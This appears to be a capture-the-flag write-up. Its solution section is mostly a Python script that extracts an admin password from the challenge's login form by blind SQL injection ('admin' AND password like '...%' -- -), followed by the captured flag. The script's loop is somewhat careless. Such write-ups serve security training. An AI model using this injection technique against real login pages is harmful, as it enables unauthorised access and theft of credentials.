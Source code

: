 # Web F111 - Part 4

## Solution

- As the description tells us to get all the credentials we tried using blind SQL injection to get the password for the `admin` account.

```
import requests
import string

url = 'https://central-reserve.cruxcrypt.crux-bphc.com/login'
charset = r'abcdefghijklmnopqrstuvwxyz0123456789X{}ABCDEFGHIJKLMNOPQRSTUVWXYZ_'

i=0
flag = ''
while True:
  for char in string.printable:
      payload = {"username":f"admin' AND password like '{flag}" + charset[i] + "%'; -- -"}
      a = requests.post(url, data=payload)
      if "Invalid" not in a.text:
          flag+=charset[i]
          i=0
          print(flag)
      else:
        i+=1
```

## Flag

```
cruXcrypt{pl4in_73x7_p4ssw0rd5_4r3_4lw4y5_4_b4d_1d34}
```
